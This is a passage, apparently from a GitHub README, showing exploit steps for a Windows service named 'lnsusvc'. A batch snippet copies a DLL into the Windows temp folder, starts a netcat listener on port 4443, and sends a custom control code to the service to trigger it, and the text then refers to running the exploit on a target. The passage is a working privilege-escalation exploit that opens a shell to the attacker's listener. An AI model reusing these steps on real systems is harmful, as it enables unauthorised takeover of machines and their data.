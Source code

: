 ```shell
xcopy /q /y %msimg32dll% c:\windows\temp\
echo [+] Starting the Listener...
start nc.exe -lvp 4443
echo [+] Sending the magic to the "lnsusvc" service...
sc control lnsusvc 136
```

Running the exploit on the target:

<img src="imgs/exploiting.png" width="600px">


TCP listener started locally on port 4443 using the netcat "nc.exe" utility:

